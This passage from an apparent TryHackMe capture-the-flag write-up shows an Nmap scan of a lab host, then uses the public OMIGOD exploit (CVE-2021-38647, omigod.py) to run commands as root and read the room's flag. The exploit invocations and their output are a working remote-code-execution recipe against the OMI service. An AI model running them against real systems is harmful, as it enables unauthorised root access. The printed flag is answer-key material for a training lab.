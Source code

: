 ```console
Increasing send delay for 172.17.0.1 from 40 to 80 due to 13 out of 42 dropped probes since last increase.
SYN Stealth Scan Timing: About 53.65% done; ETC: 05:54 (0:02:10 remaining)
Increasing send delay for 172.17.0.1 from 80 to 160 due to 11 out of 33 dropped probes since last increase.
SYN Stealth Scan Timing: About 64.33% done; ETC: 05:54 (0:01:40 remaining)
Increasing send delay for 172.17.0.1 from 160 to 320 due to 11 out of 32 dropped probes since last increase.
Discovered open port 5986/tcp on 172.17.0.1
SYN Stealth Scan Timing: About 75.00% done; ETC: 05:54 (0:01:10 remaining)
Increasing send delay for 172.17.0.1 from 320 to 640 due to 11 out of 29 dropped probes since last increase.
SYN Stealth Scan Timing: About 85.67% done; ETC: 05:54 (0:00:40 remaining)
Increasing send delay for 172.17.0.1 from 640 to 1000 due to 11 out of 33 dropped probes since last increase.
Completed SYN Stealth Scan at 05:54, 281.22s elapsed (65535 total ports)
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up, received arp-response (0.000040s latency).
Scanned at 2022-10-22 05:50:10 UTC for 281s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:4F:F3:92:56 (Unknown)
Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 281.44 seconds
           Raw packets sent: 196823 (8.660MB) | Rcvd: 230 (9.396KB)
```

- Port `5985` and `5986` seems to be suspicious, so on googling ans search found [hackticks.xyz](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi) blog on OMI .
- Downloaded [this](https://github.com/horizon3ai/CVE-2021-38647/blob/main/omigod.py) exploit from github.  
- On running this script found that we have to specify two parameters `target` (gateway) and `command`.
```console
root@4a70924bafa0:/tmp# python3 omigod.py
usage: omigod.py [-h] -t TARGET [-c COMMAND]
omigod.py: error: the following arguments are required: -t/--target
```
- For testing purpose sent a `whoami` command. 
```console
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c whoami
root
```
- Thank god we are root, otherwise I had to add my forward my proxy and upgrade my privileges.
- So I directly tried to find the root flag, and got it.
```console
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c "find / -name 'root.txt' 2>/dev/null"
/root/root.txt
```
- Read the root flag and done :stuck_out_tongue_winking_eye: .
```console
root@4a70924bafa0:/tmp# python3 omigod.py -t 172.17.0.1 -c "cat /root/root.txt"
THM{7f147ef1f36da9ae29529890a1b6011f}
```
